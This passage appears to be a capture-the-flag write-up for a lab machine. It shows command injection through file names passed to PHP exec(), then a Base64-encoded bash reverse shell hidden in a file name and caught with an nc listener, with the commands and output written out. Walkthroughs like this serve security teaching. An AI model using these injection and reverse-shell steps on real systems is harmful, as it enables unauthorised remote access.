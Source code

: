 ```bash
    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}

?>
```
The code checks the files in the uploads directory and validates if the IP address in the filename is valid. If it isn't, it will write out a log file, then delete it using exec(), before using exec() again to delete the image file. Finally it sends mail to Guly. It may be possible to inject into this exec command with the right filename.
  
For a proof-of-concept, create a file in the uploads directory with the name `; echo 'hello' > testfile`.
```bash
bash-4.2$ echo reee > "; echo 'hello' > testfile"
echo reee > "; echo 'hello' > testfile"
bash-4.2$ ls
ls
127_0_0_1.png  127_0_0_2.png  127_0_0_3.png  127_0_0_4.png  ; echo 'hello' > testfile  index.html
```
Wait a few minutes, then check the user's home directory.
```bash
bash-4.2$ ls -l /home/guly
ls -l /home/guly
total 12
-r--r--r--. 1 root root 782 Oct 30  2018 check_attack.php
-rw-r--r--  1 root root  44 Oct 30  2018 crontab.guly
-rw-r--r--  1 guly guly   0 May 25 13:06 testfile
-r--------. 1 guly guly  33 Oct 30  2018 user.txt
```
The test file exists.

### 5. Lateral movement
Encode a bash reverse shell and pipe it to bash within a filename. The shell needs to be Base64-encoded as filenames cannot contain the forward-slash character.
```bash
bash-4.2$ echo "; echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yNC85OTk4IDA+JjE= | base64 -d | bash;"            
bash-4.2$ ls -la
total 8
drwxrwxrwx. 2 root   root   115 May 25 13:41 .
drwxr-xr-x. 4 root   root   103 Jul  9  2019 ..
-rw-rw-rw-  1 apache apache   5 May 25 13:41 ; echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yNC85OTk4IDA+JjE= | base64 -d | bash;
-rw-rw-rw-  1 apache apache   6 May 25 13:40 index.html
```
Wait a few minutes...
```bash
┌──(kali㉿kali)-[10.10.14.24]-[~/Desktop]
└─$ nc -lvnp 9998       
listening on [any] 9998 ...
connect to [10.10.14.24] from (UNKNOWN) [10.129.150.153] 59406
bash: no job control in this shell
[guly@networked ~]$ id
uid=1000(guly) gid=1000(guly) groups=1000(guly)
```
